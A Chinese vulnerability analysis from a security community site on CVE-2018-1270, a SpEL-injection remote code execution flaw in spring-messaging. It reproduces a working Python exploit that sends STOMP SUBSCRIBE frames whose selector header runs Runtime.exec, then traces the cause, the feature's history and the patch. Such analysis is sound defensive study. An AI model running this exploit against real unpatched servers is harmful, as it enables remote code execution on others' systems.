





# CVE-2018-1270 spring-messaging RCE 深入分析-先知社区

> **来源**: https://xz.aliyun.com/news/16006  
> **文章ID**: 16006

---

# 1. 通过exp分析

官方通告：<https://spring.io/security/cve-2018-1270>

> spring messaging为spring框架提供消息支持，其上层协议是STOMP，底层通信基于SockJS，  
> 在spring messaging中，其允许客户端订阅消息，并使用selector过滤消息。selector用SpEL表达式编写，并使用`StandardEvaluationContext`解析，造成命令执行漏洞。
>
> ## 1.1 环境搭建
>
> 使用P神的[vulhub](https://github.com/vulhub/vulhub/blob/master/spring/CVE-2018-1270/README.md)环境，把jar包从docker copy出来，加上远程调试命令即可：
>
> ```
> java -agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=5005 -jar ws.jar
> ```
>
>   
> 在调试过程中有可能遇到字节码不匹配、找不到字节码的情况，此时需要把jar包中的lib复制出来，并add as library才行。

Vulhub中的exp如下：大概就是写了个SockJS的协议类，然后发了三个包，分别用来：connect、subscribe、send。

```
#!/usr/bin/env python3
import requests
import random
import string
import time
import threading
import logging
import sys
import json

logging.basicConfig(stream=sys.stdout, level=logging.INFO)

def random_str(length):
    letters = string.ascii_lowercase + string.digits
    return ''.join(random.choice(letters) for c in range(length))


class SockJS(threading.Thread):
    def __init__(self, url, *args, **kwargs):
        super().__init__(*args, **kwargs)
        self.base = f'{url}/{random.randint(0, 1000)}/{random_str(8)}'
        self.daemon = True
        self.session = requests.session()
        self.session.headers = {
            'Referer': url,
            'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Trident/5.0)'
        }
        self.t = int(time.time()*1000)

    def run(self):
        url = f'{self.base}/htmlfile?c=_jp.vulhub'
        response = self.session.get(url, stream=True)
        for line in response.iter_lines():
            time.sleep(0.5)

    def send(self, command, headers, body=''):
        data = [command.upper(), '\n']

        data.append('\n'.join([f'{k}:{v}' for k, v in headers.items()]))

        data.append('\n\n')
        data.append(body)
        data.append('\x00')
        data = json.dumps([''.join(data)])

        response = self.session.post(f'{self.base}/xhr_send?t={self.t}', data=data)
        if response.status_code != 204:
            logging.info(f"send '{command}' data error.")
        else:
            logging.info(f"send '{command}' data success.")

    def __del__(self):
        self.session.close()


sockjs = SockJS('http://127.0.0.1:8080/gs-guide-websocket')
sockjs.start()
time.sleep(1)

sockjs.send('connect', {
    'accept-version': '1.1,1.0',
    'heart-beat': '10000,10000'
})

s = input()

sockjs.send('subscribe', {
    'selector': "T(java.lang.Runtime).getRuntime().exec('open -a Calculator')",
    'id': 'sub-0',
    'destination': '/topic/greetings'
})

s = input()

data = json.dumps({'name': 'vulhub'})
sockjs.send('send', {
    'content-length': len(data),
    'destination': '/app/hello'
}, data)

s = input()

```

## 1.2 跟踪分析

若已知漏洞的触发位置，那么跟踪调用栈的过程都大同小异。网上有很多类似文章，这里就不详细一步一步记录了。  
通过给Runtime.exec下断点，可以获得命令执行时的调用栈。反向跟踪调用栈，发现在`DefaultSubcriptionRegistry.class`的144行，进行了SpEL表达式的getValue调用。而这个表达式来源于134行的`sub.getSelectorExpression()`，直观理解就是：获取Selector这个东西的表达式。

```
Expression expression = sub.getSelectorExpression();  
if (expression == null) {  
    result.add(sessionId, subId);  
} else {  
    if (context == null) {  
        context = new StandardEvaluationContext(message);  
        context.getPropertyAccessors().add(new SimpMessageHeaderPropertyAccessor());  
    }  

    try {  
        if (Boolean.TRUE.equals(expression.getValue(context, Boolean.class))) {  
            result.add(sessionId, subId);  
        }

```

如何才能正确触发这行代码？跟进134行的`sub.getSelectorExpression()`，发现该变量只在构造函数中被初始化过一次，所以寻找构造函数在哪里被调用即可。按照此思路逐层寻找，最终找到方法：`DefaultSubscriptionRegistry.addSubscriptionInternal()`，在此处断下断点。

还记得exp中做了三件事，即进行连接（connect）、订阅（subscribe）以及发送（send）操作。RCE是在执行发送操作时触发的，不过在订阅操作中设置了 SpEL 表达式，所以推测在执行订阅操作时就已经把 SpEL 表达式保存好了。对exp进行修改，发送订阅相关的数据包，看看会发生什么情况。果然，之前设置的断点起作用了。

再回溯调用栈，我们察觉到一个关键方法：`SimpleBrokerMessageHandler.handleMessageInternal()`，这个方法中，首先获取了message的headers，然后根据header判断消息的type，当Type为SUBSCRIBE的时候，就能触发我们之前下的断点。  


其他的追踪过程就很简单了。在追踪中可发现，若想要把expression给保存起来，简单来说需要：

* type是subscribe
* 有key为selector的这个NativeHeader  
  

于是构造exp的思路就理清了，我们只需要学习STOMP协议，构造出能让程序产生如上变量的报文即可。

# 2. 漏洞成因分析

分析至此，站在开发者的角度不禁好奇:

* STOMP中的subscribe是什么原理，为什么出现了一个selector？
* 为什么这个“selector“要设计成支持SpEL解析呢？如果不支持，不就没有这个漏洞了吗？

## 2.1 为什么会出现一个selector？

首先来说说STOMP协议。  
STOMP（Simple Text Oriented Messaging Protocol）是一种简单的、基于文本的消息协议。它主要用于在客户端和服务器之间进行消息传递，常运行在 WebSocket 、tcp等全双工协议之上。它的样子和HTTP比较像：

```
COMMAND
header1:value1
header2:value2

Body^@
```

这个协议的消息格式简单易懂，包含命令、头和体三部分，通过像 SEND、SUBSCRIBE 这样的命令，客户端可以发送消息或者订阅感兴趣的主题。服务器收到客户端发送到主题的消息后，能够将消息广播给订阅该主题的客户端，从而实现了发布 - 订阅模式的消息通信，在实时聊天、数据推送等场景中有广泛应用。

其次，说说Spring中的消息队列：

消息队列通常有发送-订阅（pub-sub）的机制，订阅者订阅了某一个主题（topic）后，消息队列每当收到一条消息，都会看看有没有人订阅了消息，如果有的话就给发送过去。据此，我们再来阅读`DefaultSubscriptionRegistry`的代码，不难发现，它就是一个用来处理订阅的”注册中心“，负责判断消息该给谁发，最终实现给每一个订阅了的（并且符合一定条件的）角色都发消息。

通过跟踪分析，定位到`DefaultSubscriptionRegistry.addSubscriptionInternal()`函数，发现selector这个header似乎是一个被特殊对待的header。除了这个header，再没有其他的自定义header能够控制subscribe的流程了。  


selector这个header对应的value是一个纯纯SpEL表达式，最终在代码中的体现为

```
if (Boolean.TRUE.equals(expression.getValue(context, Boolean.class))) {  
        result.add(sessionId, subId);  
    }

```

Spring会对它进行解析求值，并强制转换为Boolean，判断其是否为True；如果不是True，那么这个消息就不发送给subscriber了。

但在[STOMP协议的详细定义](https://stomp.github.io/stomp-specification-1.2.html#SUBSCRIBE)中，并没有显式提到这个Header，但是有这样一段话（这也是`selector`这个单词唯一出现的地方）

> An application MAY add any arbitrary user defined headers to the `SEND` frame. User defined headers are typically used to allow consumers to filter messages based on the application defined headers using a selector on a `SUBSCRIBE` frame. The user defined headers MUST be passed through in the `MESSAGE` frame.  
> 大意：用户可以给SEND开头的包添加任何header，这些header一般用来让应用程序筛选消息。

因此，Spring框架的做法是，使用`selector`这个header，允许用户传入一个SpEL进行筛选。

## 2.2 为什么要支持SpEL解析？

为什么Spring允许用户传入SpEL呢？  
继续搜索，发现了2015年4月3日有人提出这样一个[issue](https://github.com/spring-projects/spring-framework/issues/17482)  


> I am currently using STOMP over Websockets and the Simple message broker to publish messages to clients. In my case, the simple message broker support works great, except the one feature that is missing that would be really useful is message selector support to filter out certain messages sent to clients. I could use a full featured message broker for this feature but a full broker is a bit overkill for what I need.  
> 我觉得加一个selector在SimpleMessageBroker中会很好用，不然要用其他broker，太重量级了。

issue中还提到，建议可以像支持[JMS message selector](https://docs.oracle.com/cd/E19798-01/821-1841/bncer/index.html)一样去支持这个功能，或者基于SpEL来实现selector。还给出了ActiveMQ通过增加header，实现message selectors over STOMP的例子。  
官方回复：We'll give this a try for 4.2。

于是2015年4月22日，官方已经加入了SpEL的selector header支持：[commit b6327a](https://github.com/spring-projects/spring-framework/commit/b6327acec825aefadead62bd7825425b048b214c)，一个新的漏洞产生了！  


# 3. 漏洞修复

参见[漏洞补丁](https://github.com/spring-projects/spring-framework/commit/e0de9126ed8cf25cf141d3e66420da94e350708a#diff-4c8ae4ac670e5aab2b566f2e11b410f7c63192b647da0fdcddac1f20202dc55fR216)，其中把执行SpEL的context换成了`SimpleEvaluationContext`  
`StandardEvaluationContext`可以执行任意SpEL表达式，Spring官方在5.0.5之后换用`SimpleEvaluationContext`，并且使用了单例模式。后者不支持java类型引用、构造函数及bean的引用，这保持了灵活性并减少了安全隐患。

# 4. 参考链接

CVE-2018-1270：spring-messaging远程代码执行漏洞分析预警 <https://www.anquanke.com/post/id/104140>  
spring-messaging 远程代码执行漏洞分析 <https://xz.aliyun.com/t/10464>  
记一次曲折的CVE-2018-1270复现分析 <https://www.freebuf.com/vuls/327277.html>  
STOMP协议规范中文版 <https://www.cnblogs.com/davidwang456/p/4449428.html>
